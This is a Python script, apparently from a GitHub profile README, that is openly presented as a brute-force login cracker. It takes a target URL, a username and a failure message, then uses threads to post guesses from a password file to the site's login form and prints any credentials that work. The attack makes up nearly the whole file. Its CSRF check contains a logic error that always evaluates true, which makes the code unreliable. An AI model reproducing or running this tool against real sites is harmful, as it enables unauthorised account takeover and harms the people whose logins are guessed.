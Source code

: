 print (""" 

BRUTE FORCE


""")


import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """ 
                CHECKING SERVER!!!
"""
    print(banner)
    main()

<!---
suprajasarathy/suprajasarathy is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
